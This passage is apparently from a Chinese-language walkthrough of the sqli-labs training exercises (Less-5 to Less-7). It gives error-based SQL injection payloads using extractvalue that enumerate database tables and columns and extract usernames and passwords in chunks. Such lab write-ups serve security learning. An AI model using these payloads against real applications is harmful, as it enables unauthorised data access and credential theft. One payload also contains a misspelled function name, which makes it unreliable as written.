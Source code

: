 - 字段名

```
?id=1' and extractvalue(1,concat(0x23,(select group_concat(username) from users),0x23))--+
```

![](https://i-blog.csdnimg.cn/img_convert/aab561941e748c0b66a764899cef3e3a.png)

- 用户名和密码

```
?id=1' and extractvalue(1,concat(0x23,(select substring(group_concat(username,'~',password),1,30) from users))) --+
```

因为不能全部显示，所以更改二、三参数来一段一段查看

![https://i-blog.csdnimg.cn/img_convert/7ee739242ac823d66b3fbeca37c4d2f1.png](https://i-blog.csdnimg.cn/img_convert/7ee739242ac823d66b3fbeca37c4d2f1.png)

```
?id=1' and (extractvalue(1,concat(0x7e,(select password from users limit 0,1),0x7e))) --+
```

也可以使用 limit 0,1 查询

![https://gitee.com/xvshifu/pic-go/raw/master/img/20250718144915592.png](https://gitee.com/xvshifu/pic-go/raw/master/img/20250718144915592.png)

## Less-6

less-6与less-5的区别在于注入点不同，less-5是单引号，less-6是双引号，其他的都一样。

```
?id=1" and extractvalue(1,concat(0x23,database(),0x23))--+

?id=1" and extractvalue(1,concat(0x23,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x23))--+

?id=1" and extaractvalue(1,concat(0x23,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),0x23))--+

?id=1" and extractvalue(1,concat(0x23,(select group_concat(username) from users),0x23))--+

?id=1" and extractvalue(1,concat(0x23,(select substring(group_concat(username,'~',password),1,30) from users))) --+
```

![https://gitee.com/xvshifu/pic-go/raw/master/img/20250718144915459.png](https://gitee.com/xvshifu/pic-go/raw/master/img/20250718144915459.png)

## Less-7

判断闭合为：`'))`

![img](https://gitee.com/xvshifu/pic-go/raw/master/img/20250718144917320.png)

![https://i-blog.csdnimg.cn/img_convert/f4a8bbe33f0b77bbffd46ae17c74d00c.png](https://i-blog.csdnimg.cn/img_convert/f4a8bbe33f0b77bbffd46ae17c74d00c.png)
